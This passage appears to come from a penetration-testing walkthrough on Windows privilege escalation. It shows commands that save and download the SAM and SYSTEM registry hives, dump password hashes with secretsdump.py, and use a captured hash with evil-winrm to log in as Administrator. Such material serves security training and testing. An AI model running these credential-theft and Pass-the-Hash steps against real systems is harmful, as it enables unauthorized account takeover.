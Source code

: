 \----

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine.

**Kali(WinRM)**

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools.

**Kali**

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

<figure><img src="../../.gitbook/assets/image (3) (11) (1).png" alt=""><figcaption></figcaption></figure>

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges.

**Kali**

```
evil-winrm -i $VICTIM -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```

<figure><img src="../../.gitbook/assets/image (95) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Special Privileges and Security Descriptors
